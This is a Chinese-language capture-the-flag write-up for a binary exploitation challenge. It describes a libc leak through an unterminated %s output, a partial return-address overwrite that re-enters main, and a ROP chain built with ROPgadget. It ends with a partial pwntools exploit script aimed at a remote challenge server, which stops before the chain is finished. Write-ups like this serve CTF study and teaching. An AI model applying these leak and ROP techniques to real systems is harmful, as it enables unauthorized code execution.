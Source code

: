 在保護的部分，確實沒有 canary，不過有 PIE 和 NX

![](https://i.imgur.com/hwABEux.png =500x)

而在這個 binary 中沒有其他可疑函式了，如題目所說程式真的很小

由於以上的種種限制及特性，以及題目有給 libc 的情況下，可以推測這題是要 ret2libc with PIE

首先需要想辦法 leak 出 libc 的位置，在程式中可以觀察到會將輸入的部分用 `%s` 的 format 輸出，因此假設輸入內容後面沒有 `\x00` 就會一直印出 stack 的內容直到遇到此字元

觀察 stack 後，可以看到 return address (`0x7f5fc39e0d90`) 的部分就是 libc 的位置，因此只要輸入 0x18 個字元填滿前面的空間即可順便將 libc 中間位置印出，即可進一步獲得 libc base address

![](https://i.imgur.com/TXQtSZv.png =500x)

![](https://i.imgur.com/yIY5rFN.png =500x)

可是接下來就有一個問題，程式輸出之後就會結束了，沒辦法做更進一步的利用，此外也有 PIE 的因素，沒辦法得知 main 函式的位置

因此我觀察 libc 後，發現了一個利用點，以下是 libc 的 assembly code 和 decompile 的程式，原先的 return address 在 `0x00129d90` 綠色線處

![](https://i.imgur.com/ILBeXJg.png)

而很恰巧的是，往上二行的部分會將 rsp+8 位置的內容給 rax 並執行，而在 stack 中執行完 return 後的 rsp+8 內容剛好是 main 的位置，因此只要想辦法把位置改成 `0x7f5fc39e0d89` 就可以再次進入 main 函式了

另外由於 PIE 模式下位置的後三個 hex 不會變，因此可以用部分修改的方式覆蓋最後的 2 位 hex 改成 `0x89` 即可再此執行 main 函式

因此在有了 libc 位置的情況下，嘗試利用 libc 裡面的 gadget 組成 ROP chain，這邊我因為一直用手工方式找不到 gadget 所以利用 ROPgadget 工具的 `--ropchain` 選項自動產生 exploit 並稍微修改

以下是完整的 exploit

:::spoiler solve.py
```python=
from pwn import *
from Crypto.Util.number import bytes_to_long, long_to_bytes

binary = "./chall"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

libc = ELF("./libc.so.6")

conn = remote("34.141.229.188",1337)
# conn = process(binary)
# conn = gdb.debug(binary)

payload = b"A"*0x10
payload += b"A"*0x8
payload += b"\x89" # 00129d89    MOV RAX ,qword ptr [RSP  + 0x8 ]
conn.sendafter(b"movie?: ", payload)
conn.recvuntil(b"like")
data = conn.recvline()[-8:-2]
print("leak:", data[::-1].hex())

libc_base = bytes_to_long(data[::-1]) + 0x57147 - libc.symbols["puts"]
print("libc base:", long_to_bytes(libc_base).hex())


payload = b"A"*0x10
payload += b"/bin/sh\x00"
payload += p64(libc_base + 0xa8b39) # mov rax, rbp ; pop rbp ; pop r12 ; pop r13 ; ret
payload += b"A"*0x18
```